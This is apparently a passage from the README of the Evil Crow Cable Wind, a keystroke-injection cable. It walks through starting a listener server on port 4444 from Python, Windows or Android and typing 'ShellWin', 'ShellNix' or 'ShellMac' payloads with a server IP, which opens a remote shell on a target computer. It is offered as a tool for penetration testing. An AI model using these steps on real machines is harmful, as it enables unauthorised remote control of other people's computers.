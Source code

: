 1. Run evilcrow-server.py to start the attack:

	* Windows Target: python evilcrow-server.py --port 4444 --target windows
	* Linux Target: python evilcrow-server.py --port 4444 --target linux
	* MacOS Target: python evilcrow-server.py --port 4444 --target macos
	
![Server](https://github.com/joelsernamoreno/EvilCrowCable-Wind/blob/main/images/server.png)

2. Go to the web panel and type the following payload from Live Payload:

	* Windows Target: ShellWin "Evil Crow server IP" (example: ShellWin 192.168.85.230)
	* Linux Target: ShellNix "Evil Crow server IP" (example: ShellNix 192.168.85.230)
	* MacOS Target: ShellMac "Evil Crow server IP" (example: ShellMac 192.168.85.230)
	
3. Click on 'Run Payload'.

## Windows Server

1. Run evilcrow-server.exe to start the attack:

	* Windows, Linux or MacOS Target: evilcrow-server.exe --port 4444

2. Go to the web panel and type the following payload from Live Payload:

	* Windows Target: ShellWin "Evil Crow server IP" (example: ShellWin 192.168.85.230)
	* Linux Target: ShellNix "Evil Crow server IP" (example: ShellNix 192.168.85.230)
	* MacOS Target: ShellMac "Evil Crow server IP" (example: ShellMac 192.168.85.230)
	
3. Click on 'Run Payload'.

![Server](https://github.com/joelsernamoreno/EvilCrowCable-Wind/blob/main/images/server-windows.png)

## Android Server

1. Open Evil Crow Server APP

2. Go to the web panel and type the following payload from Live Payload:

	* Windows Target: ShellWin "Evil Crow server IP" (example: ShellWin 192.168.85.230)
	* Linux Target: ShellNix "Evil Crow server IP" (example: ShellNix 192.168.85.230)
	* MacOS Target: ShellMac "Evil Crow server IP" (example: ShellMac 192.168.85.230)

3. Click on 'Run Payload'.

![Server](https://github.com/joelsernamoreno/EvilCrowCable-Wind/blob/main/images/server-android.jpg)

**Demo:** [Remote Shell](https://www.youtube.com/watch?v=FmkIHYdOxS4)

